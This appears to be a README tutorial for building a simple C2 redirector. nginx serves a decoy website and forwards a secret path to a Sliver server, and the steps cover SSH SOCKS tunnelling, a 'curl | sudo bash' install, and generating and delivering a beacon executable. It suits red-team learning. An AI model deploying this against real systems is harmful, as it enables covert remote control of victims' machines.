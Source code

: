 # Simple C2 Redirector Infrastructure
Simple C2 Path Redirector with nginx to help learn the basics of C2 infrastructure.

Requirements:
* (2) Ubuntu VMs in the cloud with **at least** 1 CPU and 2 GB RAM each
* (1) Domain

<img width="772" height="366" alt="image" src="https://github.com/user-attachments/assets/25eeb7de-c954-4065-889c-ce0ad9905e93" />

# 1. Create VMs in Cloud
First create two VMS in your favorite Cloud service (AWS, Azure, etc):  
* Redir-VM - Will be exposed to the internet and serve as the *fake website* using nginx   
* C2-VM - Will be your C2 (in this case Sliver) and NOT exposed to the internet at all

These two VMs will be in the **SAME private network** with the following network configs.  
**C2-VM**:
- Create in local network private network
- NO Public IP or ports open to the Internet
- Make sure to create an SSH key for these VMs

**Redir-VM** (You can change 8443 to whatever port but change throughout future steps if you do):  
- Inbound  
   - 22 to only your IP(s)  
   - 80 to any IP  
   - 443 to any IP  
   - 8443 to any IP
- Outbound  
    - 80 to any IP  
    - 443 to any IP  
    - 8443 to any IP   

Once you get your public IP for Redir-VM, make an *A-record* DNS entry to your domain and the public IP.


# 2. Setup Redir-VM
_Perform the following commands on Redir-VM unless stated otherwise._

First lets configure the redirector which will host a fake website using nginx and when a certain path is given, it will redirect to the C2 server.
```
sudo apt update && sudo apt upgrade
sudo apt-get install -y nginx certbot net-tools
sudo systemctl stop nginx
sudo certbot certonly --register-unsafely-without-email -d <www.youdomain.com>
```
_Note: for certbot, enter [1] then [y] when prompted_
Create your fake website in _/var/www/html_ by changing _index.html_ to your own code or use the one in the repo and change the wording a bit to make sense for your domain.

Create your redirector in _/etc/nginx/sites-available_ by adding the _default_ file from the repo to replace the one there.
CHANGE _secretpath_ to something custom, make sure its random looking and long. so something like:
```
  location /ajisdfYUVSbgseoznauitrcbXBWDG {
                proxy_pass https://<C2-ip>:443;
        }
```
Start up nginx
```
sudo systemctl start nginx
```

Upload your SSH key to Redir-VM so you can connect to C2-VM through SSH  
From your host to Redir-VM:
```
scp -i <yourSSH-.pem-file> <yourSSH-.pem-file> <user>@<Redir-VM-IP>:/home/<user>/.ssh/id_rsa
```
Chmod 400 to the SSH key on Redir-VM. 
```
chmod 400 ~/.ssh/<your-private-key>
```
Copy over the same SSH key to the C2 to do reversee SSH connections in the next step  
From Redir-VM to C2-VM:
```
scp /home/<user>/.ssh/id_rsa <user>@<c2-VM-IP>:/home/<user>/.ssh/id_rsa
```

# 3. Setup C2-VM

_Perform the following commands on C2-VM unless stated otherwise. Make sure the SSH key is on C2-VM from previous step in order to perform reverse SSH connection._

Setup SSH reverse connection from C2-VM to Redir-VM in order to reach the internet and download Sliver.  
This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session.
```
ssh -D 1080 -q -N <user>@<Redir-VM-PRIVATE-IP>
```
*Note: This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session*

Test SSH reverse connection by using curl with socks5, it should return the IP of Redir-VM's public IP.
```
curl --socks5-hostname 127.0.0.1:1080 ifconfig.io
```
Install your C2 using socks5 (in this case Sliver).
```
curl --socks5-hostname 127.0.0.1:1080 https://sliver.sh/install|sudo bash
```

Once it finishes installed, exit or cancel the _ssh -D_ command with _Ctrl + C_ in the terminal.


# 4. Configure Your C2
Again, this will be using sliver so modify steps to your C2 and we will be using defaul configs since this is not a tutorial on bypassing EDR.
Use Sliver's latest [Wiki](https://sliver.sh/docs?name=Compile+from+Source) in case specific configs change.  

Confirm Sliver is installed (running as sudo to use HTTPS, screen is optional).
```
sudo su
screen -S sliver-session
sliver
```

Generate a beacon and start HTTPS listener.
```
generate beacon --http <yourDomain>:8443/<yourSecretRedirPath> --save yourBeacon.exe

https
```

Transfer over payload (yourBeacon.exe) to a machine an run it (Make sure Defender is turned off if using default configs).
```
On C2-VM:
chmod 777 <beacon.exe-location>

On Redir-VM: 
scp -i <SSH-key> <user>@<C2-VM-IP>:/<beacon.exe-location> .

On host to get it from Redir-VM:
scp -i <SSH-key> <user>@<Redir-VM-public-IP>:/<beacon.exe-location> .
```


